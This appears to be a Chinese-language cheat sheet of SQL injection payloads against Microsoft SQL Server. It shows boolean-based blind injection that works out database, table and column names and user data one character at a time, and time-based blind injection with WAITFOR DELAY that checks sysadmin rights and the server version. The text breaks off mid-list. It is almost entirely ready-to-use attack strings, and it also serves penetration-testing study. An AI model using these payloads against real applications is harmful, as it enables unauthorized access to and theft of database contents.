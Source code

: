 ## 布尔盲注 

```sql
1. 判断注入点  
and 1=1 and 1=2 and '1'='1' and '1456'='1456'--+

2.猜解数据库个数
id=1 and (select count(*) from sys.databases)=7--+        # 存在7个数据库

3.猜解数据库名长度 
id=1 and len((select top 1 name from sys.databases))=6--+ # 第一个库名长度为6
id=1 and len(db_name())=4--+                              # 当前数据库名长度为4

4.猜解数据库名
id=1 and ascii(substring(db_name(),1,1))=115--+ # 截取库名第一个字符的ascii码为115——s
id=1 and ascii(substring(db_name(),2,1))=113--+ # 截取库名第二个字符的ascii码为113——q
# 截取第一个库名第一个字符的ascii码为109——m
id=1 and ascii(substring((select top 1 name from sys.databases),1,1))=109--+
# 截取第二个库名第一个字符的ascii码为105——i
id=1 and ascii(substring((select top 1 name from sys.databases where name not in ('master')),1,1))=105--+ 

5.猜解表名
# 截取当前库的第一个表的第一个字符的ascii码为101——e
id=1 and ascii(substring((select top 1 table_name from information_schema.tables),1,1))=101--+ 
# 截取当前库的第二个表的第一个字符的ascii码为117——u
id=1 and ascii(substring((select top 1 table_name from information_schema.tables where table_name not in ('emails')),1,1))=117--+

6.猜解字段名 
# 截取当前库的emails表的第一个字符的ascii码为105——i
id=1 and ascii(substring((select top 1 column_name from information_schema.columns where table_name='emails'),1,1))=105--+
#截取当前库的emails表的第二个字符的ascii码为100——d 
id=1 and ascii(substring((select top 1 column_name from information_schema.columns where table_name='emails'),2,1))=100--+ 

7.猜解表中数据
# username字段的数据第一个字符为D
id=1 and ascii(substring((select top 1 username from users),1,1))=68--+
```

## 时间盲注

```sql
1.判断是否存在注入
id=1 WAITFOR DELAY '0:0:5'--+

2.判断权限
# 如果是sysadmin权限，则延时5秒
id=1 if(select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--+

3.查询当前数据库的长度和名字
# 二分法查询长度
id=1 if(len(db_name()))>40 WAITFOR DELAY '0:0:5'--+
# 查询数据库名字
# substring截取字符串的位置，用ascii转为数字进行二分法查询
id=1 if(ascii(substring(db_name(),1,1)))>50 WAITFOR DELAY '0:0:5'--+

4.查询数据库的版本 
id=1 if(ascii(substring((select @@version),1,1))=77 WAITFOR DELAY '0:0:5'--+ # ascii 77 = M

5.查询表个数,Sysobject 存储了所有表的信息，所有数据库的都放在一起
```